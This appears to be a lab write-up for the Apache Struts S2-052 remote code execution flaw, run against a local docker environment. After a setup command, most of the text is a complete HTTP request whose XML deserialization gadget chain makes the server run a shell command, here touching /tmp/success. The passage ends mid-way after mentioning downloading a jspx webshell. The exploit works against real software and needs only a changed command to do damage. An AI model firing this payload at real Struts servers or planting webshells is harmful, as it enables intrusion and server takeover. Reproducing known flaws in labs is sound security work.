

S2-052 Remote Code Execution Vulnerablity¶
Affected Version: Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12
Details:
Setup¶
docker compose up -d
Exploit¶
After launching the environment, visit http://your-ip:8080/orders.xhtml to see the showcase page. We need modify the orders.xhtml to order.xml or modify the Content-Type header to application/xml to pass the XML data in the body.
So, the package is:
POST /orders/3/edit HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2415
<map>
<entry>
<jdk.nashorn.internal.objects.NativeString>
<flags>0</flags>
<value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
<dataHandler>
<dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
<is class="javax.crypto.CipherInputStream">
<cipher class="javax.crypto.NullCipher">
<initialized>false</initialized>
<opmode>0</opmode>
<serviceIterator class="javax.imageio.spi.FilterIterator">
<iter class="javax.imageio.spi.FilterIterator">
<iter class="java.util.Collections$EmptyIterator"/>
<next class="java.lang.ProcessBuilder">
<command>
<string>touch</string>
<string>/tmp/success</string>
</command>
<redirectErrorStream>false</redirectErrorStream>
</next>
</iter>
<filter class="javax.imageio.ImageIO$ContainsFilter">
<method>
<class>java.lang.ProcessBuilder</class>
<name>start</name>
<parameter-types/>
</method>
<name>foo</name>
</filter>
<next class="string">foo</next>
</serviceIterator>
<lock/>
</cipher>
<input class="java.lang.ProcessBuilder$NullInputStream"/>
<ibuffer></ibuffer>
<done>false</done>
<ostart>0</ostart>
<ofinish>0</ofinish>
<closed>false</closed>
</is>
<consumed>false</consumed>
</dataSource>
<transferFlavors/>
</dataHandler>
<dataLen>0</dataLen>
</value>
</jdk.nashorn.internal.objects.NativeString>
<jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
</entry>
<entry>
<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
</entry>
</map>
If the packet is executed, the file /tmp/success will be created in the docker container. We execute docker compose exec struts2 ls /tmp/, and we can see success.
In addition, we can also download a jspx webshell:
